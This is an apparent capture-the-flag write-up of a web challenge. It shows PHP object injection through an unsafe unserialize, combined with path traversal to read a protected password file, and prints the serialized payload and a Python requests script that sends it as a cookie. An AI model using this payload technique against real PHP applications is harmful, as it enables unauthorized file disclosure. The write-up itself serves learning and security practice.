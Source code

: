Web C - 200
	Ah, the art of looking back on what you have accomplished.

[Web C](http://web.camsctf.com/12)

-------------

It seems that we wish to read a file in `/1/`. Looking in the source code, we see that the file we want is `pass12.txt` (which we don't have permission to), and there's also a `useful.php`. Going over to http://web.camsctf.com/12/useful.php, we see a serializer/unserializer! Interesting...

![useful.php](http://i.imgur.com/lW85ZQ4.png)

We now look at response.js, which says at the bottom:

	// I have reason to believe that the true purpose of read.php is located in read.png - Lujing

`read.php` is what happens when we click the button in useful.php, and read.png shows us:

![read.png](http://web.camsctf.com/12/read.png)

Wow! An unsafe `unserialize`! Using PHP object injection (https://www.owasp.org/index.php/PHP_Object_Injection), we can get that file!

Our php source code:
```php

<?php
class readfile
{
   public $private_file = 'readfile("../1/pass12.txt")';
}

print urlencode(serialize(new readfile));
?>

```

Which gives us:

	O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D

We then write a quick python script to solve the problem:

```python
cooky = {'data':'O%3A8%3A%22readfile%22%3A1%3A%7Bs%3A22%3A%22%00readfile%00private_file%22%3Bs%3A15%3A%22..%2F1%2Fpass12.txt%22%3B%7D'}
r = requests.post("http://web.camsctf.com/12/read.php",cookies=cooky)
print(r.text)
```

And we get:

`path_traversal_con_object_injection`

We plug this into the password box to get our flag!

Flag: `{am_i_a_real_hacker_now}`